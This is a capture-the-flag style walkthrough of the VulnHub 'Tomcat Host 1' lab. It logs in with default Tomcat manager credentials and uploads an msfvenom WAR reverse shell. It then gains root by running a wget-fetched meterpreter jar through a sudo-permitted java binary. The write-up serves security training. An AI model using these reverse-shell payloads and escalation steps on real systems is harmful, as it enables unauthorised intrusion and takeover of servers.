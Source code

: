 ```yaml
---
published: true
layout: post
title: Tomcat Host VulnHub
category: vulnhub
---
```

**Url**: [Tomcat Host 1 VulnHub](https://www.vulnhub.com/entry/my-tomcat-host-1,457/) 

**Difficulty**: Easy/Beginner Level 

**Author**: Akanksha Sachin Verma 

### Enumeration

Firstly, a netdiscover scan will reveal how the machine can be identified on the network:

<div class="language-plaintext highlighter-rouge"><pre class="highlight">netdiscover -i eth1</pre></div>
    
![netdiscover](https://i.imgur.com/IhhB5af.png)

Then an nmap scan:

	nmap -p- -A 192.168.56.110

![nmap](https://imgur.com/fqEpNx9.png)

A closer look at port 8080 on my broswer reveals a Apache Tomcat/9.0.31 

![tomcat](https://imgur.com/e78J3dy.png)

Apache Tomcat is an application server designed to execute Java servlets and render web pages that use Java Server page coding.

The "Manager App" section requires a username and password. The default credentials for Tomcat work (tomcat:tomcat).

	192.168.56.110:8080/manager/html

The Web Application Manager is an opportunity to upload a reverse shell. I'll be using msfvenom to create a reverse shell. This is a good website on how to use msfvenom for reference:

[Offensive Security](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

The payload must be a war file, listening on port 4444 with my local adddress.

	msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.56.101 lport=4444 -f war > fedai.war

This will be uploaded here:

![upload](https://imgur.com/N4Ns2uf.png)

Before executing the payload, listen on port 4444 with netcat:

	nc -nvlp 4444

Now it must be executed, so we visit the path where it is kept, in my case /fedai. We now have a reverse shell. Uid is 'tomcat'.

	id
	python -c 'import pty;pty.spawn("/bin/bash")'

![deployed](https://imgur.com/2hdSVjH.png)


### User

Always check sudo priviliges to see how we can start escelating priviliges:

	sudo -l
   
![sudo l](https://imgur.com/50SztJT.png)

As demonstrated, the user tomcat can run commands here:	/usr/lib/jvm/java-1.8.0-openjdk-1.8.0.242.b08-0.el7_7.x86_64/jre/bin/java. This is an openjdk java binary file which we can use to exploit priviliges.

We'll be creating another reverse shell payload on meterpreter in a java file format. Listening port will be 5555 with my local IP address again. The file will be downloaded on the victims pc so this file will be created under the apache web directory on my machine.

	msfvenom --platform java -f jar -p java/meterpreter/reverse_tcp lhost=192.168.56.101 lport=5555 > fedai.jar

![www](https://imgur.com/0IDSyUh.png)

Start the apache2 service:

	service apache2 start

Go to the temp directory on the victims machine and transfer the payload over.

	cd /tmp
	wget http://192.168.56.101/fedai.jar

![wget](https://imgur.com/PmLq6W1.png)


### Root

Before executing, we need to set up the meterpreter payload listener on metasploit:

	msfconsole
	use exploit/multi/handler
	set payload java/meterpreter/reverse_tcp
	set lport 5555
	run

![meterpreter](https://imgur.com/UWIDebS.png)

Let's execute this payload with the following command:

	sudo java -jar fedai.jar

![exe](https://imgur.com/6tya58T.png)

We get a successful connection from the tomcat machine as seen on meterpreter, the current user has been identified as root!

![connection](https://imgur.com/4NfW5Ls.png)
